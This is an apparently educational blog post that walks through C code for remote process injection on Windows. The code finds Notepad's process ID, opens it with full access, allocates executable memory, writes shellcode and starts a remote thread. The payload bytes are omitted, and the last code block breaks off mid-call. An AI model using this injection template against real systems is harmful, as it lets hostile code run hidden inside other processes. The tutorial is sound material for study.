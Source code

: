 ```yaml
---
layout: post
title:  "Process Injection - 01"
---
```


## Injecting shellcode into a remote process.

### Introduction

Process injection, a technique utilized in both legitimate applications and malicious software, involves manipulating the memory space of a running process. This blog delves into the intricacies of remote process injection, utilizing a simple C program for educational purposes. It's important to note that the provided code lacks evasion techniques and is intended solely for educational exploration.

### Overview of Process Injection

Process injection serves as a potent method for executing code in the address space of another process. This allows for various functionalities, including code injection, DLL injection, and reflective DLL injection. In our exploration, we'll focus on remote process injection, where the injection process is initiated from an external program. In our example, the program does not incorporate evasion techniques and maintains a straightforward structure. This approach allows for a clearer understanding of the core concepts without introducing complexities related to evasion.

### Utilized functions from the Windows APIs

The success of remote process injection hinges on leveraging specific Win32API functions. These functions play pivotal roles in tasks such as process identification, memory allocation in the remote process, and thread creation. Here are key Win32API functions employed in the provided C code:

- `CreateToolhelp32Snapshot`: Captures a snapshot of all processes currently running in the system.
- `Process32First` and `Process32Next`: Retrieve information about the first and subsequent processes in the snapshot.
- `OpenProcess`: Opens an existing process, providing various access rights.
- `VirtualAllocEx`: Allocates memory in the address space of the specified process.
- `WriteProcessMemory`: Writes data to the memory of the specified process.
- `CreateRemoteThread`: Creates a thread running in the address space of the specified process.

### Flow of the Program (key steps)

1. **Process Identification:** Identify the process ID of "Notepad.exe" or any process ID of your choice using `FindProcessId`.
2. **Open the Process:** If the process ID is obtained, open the process with full access rights using `OpenProcess`.
3. **Payload Injection:** If the process is successfully opened, inject the payload into the target process via the `injectPayload` function.
4. **Execution:** The injected payload, represented by the shellcode, is executed within the context of the target process.

### Understanding the code

1. **Payload definition:** The `payload` variable encapsulates a block of machine code, acting as the payload intended for injection. This payload, in our example, is designed to open a calculator.

    ```c
    unsigned char payload[] = {
      // ... (payload content)
    };
    unsigned int payload_len = sizeof(payload);
    ```

2. **Process Identification:** (Identify the Process ID of "Notepad.exe" using `FindProcessId`)

    In this step, the program uses the `FindProcessId` function to determine the Process ID (PID) of the target process, which, in this example, is "Notepad.exe." The `FindProcessId` function takes the name of the target process as a parameter and iterates through the list of running processes to find a match. Here, the function uses the Windows API functions `CreateToolhelp32Snapshot` and `Process32First/Process32Next` to iterate through the list of processes, comparing each process name with the provided target name ("Notepad.exe"). When a match is found, the corresponding Process ID is returned.

    ```c
    int FindProcessId(const char *FprocessName) {
      HANDLE hProcessSnapshot;
      PROCESSENTRY32 pe32;
      DWORD pid = 0;

      hProcessSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

      if (hProcessSnapshot == INVALID_HANDLE_VALUE) {
        // Error handling
        return 0;
      }

      pe32.dwSize = sizeof(PROCESSENTRY32);
      if (!Process32First(hProcessSnapshot, &pe32)) {
        // Error handling
        CloseHandle(hProcessSnapshot);
        return 0;
      }

      while (Process32Next(hProcessSnapshot, &pe32)) {
        if (_stricmp(FprocessName, pe32.szExeFile) == 0) {
          pid = pe32.th32ProcessID;
          break;
        }
      }

      CloseHandle(hProcessSnapshot);
      return pid;
    }
    ```

3. **Open the Process:** (If the Process ID is obtained, open the process with full access rights using `OpenProcess`)

    Once the Process ID is identified, the program uses the `OpenProcess` function to open the target process. This function returns a handle to the specified process, allowing subsequent operations on that process. In this snippet, the `OpenProcess` function is called with the identified Process ID and the desired access rights (`PROCESS_ALL_ACCESS`). If the function succeeds, it returns a handle (`hProcess`) to the opened process, signifying that subsequent operations can be performed on this process.

    ```c
    int main(void) {
      // ... (main function initialization)
      int main(void) {
        int process_Id = 0;
        HANDLE hProcess = NULL;

        process_Id = FindProcessId("Notepad.exe");

        if (process_Id) {
            printf("Notepad process id is: %d", process_Id);

            hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_Id);
            if (hProcess != NULL) {
                // Code to inject payload
            }
        }

        return 0;
    }
    ```

4. **Remote Process Injection:** If the process is successfully opened, inject the payload into the target process via the `injectPayload` function. Following the successful opening of the target process, the program proceeds to inject the payload. This involves allocating memory within the address space of the target process using `VirtualAllocEx` and writing the payload into that allocated memory with `WriteProcessMemory`. Here, the `injectPayload` function is called with the opened process handle (`hProcess`) and the payload information. The `injectPayload` function, which was defined earlier, handles the memory allocation and payload injection.

    <pre>
    // Function to inject payload into the target process
    int injectPayload(HANDLE ihProcess, unsigned char *iPayload, int iPayload_len) {
        // Allocate memory in the remote process
        LPVOID rmem = VirtualAllocEx(ihProcess, NULL, iPayload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

        if (rmem == NULL) {
            // Error handling
            return -1;
        }

        // Write the payload into the allocated memory
        if (!WriteProcessMemory(ihProcess, rmem, (PVOID)iPayload, iPayload_len, NULL)) {
            // Error handling
            VirtualFreeEx(ihProcess, rmem, 0, MEM_RELEASE);
            return -1;
        }

        // Create a remote thread to execute the injected payload
        HANDLE cremoteThread = CreateRemoteThread(ihProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rmem, NULL, 0, NULL);

        if (cremoteThread == NULL) {
            // Error handling
            VirtualFreeEx(ihProcess, rmem
            </pre>
